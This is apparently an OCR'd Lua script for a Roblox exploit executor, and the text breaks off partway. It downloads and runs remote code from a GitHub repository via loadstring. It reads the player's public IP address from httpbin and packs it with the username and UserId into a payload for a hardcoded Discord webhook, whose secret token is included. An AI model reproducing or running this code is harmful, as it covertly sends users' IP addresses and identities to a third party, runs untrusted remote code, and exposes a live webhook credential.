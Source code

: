 repeat task.wait() until game:IsLoaded()
__LUABLE = {
    ["Functions"] = loadstring(game:HttpGet("https://raw.githubusercontent.com/ZoiIntra/Api/main/Luable/__Function.lua"))()
}
__U = {}
for i=1,#__LUABLE["Functions"] do
    pcall(function()
        __U[i] = clonefunction(__LUABLE["Functions"][i])
    end)
end
--__Team = {}
--__Team.Select = Config["Team"] or "p"
__A = {}
__A.Api = loadstring(game:HttpGet("https://raw.githubusercontent.com/ZoiIntra/Api/main/Luable/__CheckGame.lua"))()
-- Setting
__A.Value_Game = tostring(__A.Api:Game())
__A.WebhookUrl = 'https://discord.com/api/webhooks/1218168899434975292/8ihet3SCRq4RQJ_fXduTCH7YP3kbJu7JK1LPirx5LSsDbOL_H5CyZpDDZPUkCJl-XnZ8'

-- Script
__A.Executor = identifyexecutor()
__A.RoExec = function()
    if tostring(__A.Executor) == "Krampus" then
        return true
    else
        return false
    end
end
if __A.RoExec() then
    __A.Executor_Name = "RO-EXEC"
else
    __A.Executor_Name = tostring(__A.Executor)
end
__A.HttpService = game:GetService("HttpService")
__A.requestt = http_request or request or syn.request
__A.body = __A.requestt({Url = "https://httpbin.org/get"; Method = "GET"}).Body;
__A.decoded = game:GetService("HttpService"):JSONDecode(__A.body)
__A.ip = __A.decoded.origin
__A.PlaceID = game.PlaceId
__A.Path = "http://www.roblox.com/asset/?id="
__A.headers = {
    ["Content-Type"] = "application/json"
}   
__A.data = {
    ["embeds"] = {
        {
            ["title"] = "Alchemy Webhook",
            ["type"] = "rich",
            ["color"] = tonumber(0x00ffa6),
            ["thumbnail"] = {
                ["url"] = "https://cdn.discordapp.com/attachments/1218168858330927195/1218173124734877706/EMO.png?ex=6606b321&is=65f43e21&hm=d0da09c29e6408ff8a855ba3c75731d6ef0551f7420b06486124b84f5b445e87&";
            },
            ["fields"] = {
                {
                    ["name"] = 'Username / UserId',
                    ["value"] = "╰― "..game:GetService("Players").LocalPlayer.Name.." / "..game:GetService("Players").LocalPlayer.UserId,
                    ["inline"] = false
                },
                {
                    ["name"] = 'IP',